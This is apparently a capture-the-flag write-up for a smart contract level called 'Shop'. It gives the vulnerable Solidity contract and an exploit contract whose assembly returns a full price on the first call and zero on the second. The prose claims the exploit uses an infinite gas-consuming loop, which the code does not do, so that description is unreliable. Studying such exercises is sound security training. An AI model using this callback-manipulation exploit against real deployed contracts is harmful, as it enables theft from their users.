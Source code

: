# Level 21 - Shop

### Objective

The objective of this level is as follows:

1. Сan you get the item from the shop for less than the price asked?

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

### Solution

Solution inspired by [this_post](https://medium.com/@this_post):

First, create a contract with an infinite loop that consumes all forwarding gas:

```
contract solveShop {

    Shop public shop;

    constructor(address shopAddr) public {
        shop = Shop(shopAddr);
    }

    function price() external returns (uint) {
    assembly {
        mstore(0x100, 0xe852e741)
        mstore(0x120, 0x0)
        let result := staticcall(gas(), sload(0x0), 0x11c, 0x4, 0x120, 0x20)
        if iszero(mload(0x120)) {
           mstore(0x150, 0x64)
           return(0x150, 0x20)
        }
        mstore(0x150, 0x0)
        return(0x150, 0x20)
    }
}

    function call() public {
        shop.buy();
    }
}
```

Done!
